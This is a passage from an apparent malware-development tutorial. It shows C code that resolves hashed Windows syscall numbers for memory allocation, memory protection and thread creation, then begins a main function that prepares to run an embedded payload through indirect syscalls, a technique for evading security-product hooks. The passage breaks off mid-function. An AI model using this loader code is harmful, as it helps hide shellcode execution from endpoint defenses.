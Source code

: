 #### Creating InitializeNtSyscalls

To populate the `g_Nt` global variable, the newly created function, `InitializeNtSyscalls`, will call `FetchNtSyscall` to initialize all members of `NTAPI_FUNC`.

```c
BOOL InitializeNtSyscalls() {

	if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &g_Nt.NtAllocateVirtualMemory)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtAllocateVirtualMemory \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtAllocateVirtualMemory Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtAllocateVirtualMemory.dwSSn, g_Nt.NtAllocateVirtualMemory.pSyscallInstAddress);


	if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &g_Nt.NtProtectVirtualMemory)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtProtectVirtualMemory \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtProtectVirtualMemory Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtProtectVirtualMemory.dwSSn, g_Nt.NtProtectVirtualMemory.pSyscallInstAddress);


	if (!FetchNtSyscall(NtCreateThreadEx_CRC32, &g_Nt.NtCreateThreadEx)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtCreateThreadEx \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtCreateThreadEx Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtCreateThreadEx.dwSSn, g_Nt.NtCreateThreadEx.pSyscallInstAddress);


	if (!FetchNtSyscall(NtWaitForSingleObject_CRC32, &g_Nt.NtWaitForSingleObject)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtWaitForSingleObject \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtWaitForSingleObject Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtWaitForSingleObject.dwSSn, g_Nt.NtWaitForSingleObject.pSyscallInstAddress);

	return TRUE;
}
```

#### Main Function

```c

int main() {

	NTSTATUS	STATUS		= NULL;
	PVOID		pAddress	= NULL;
	SIZE_T		sSize		= sizeof(Payload);
	DWORD		dwOld		= NULL;
	HANDLE		hProcess	= (HANDLE)-1,	// local process
		        hThread		= NULL;
	


	// initializing the used syscalls
	if (!InitializeNtSyscalls()) {
		printf("[!] Failed To Initialize The Specified Indirect-Syscalls \n");
		return -1;
```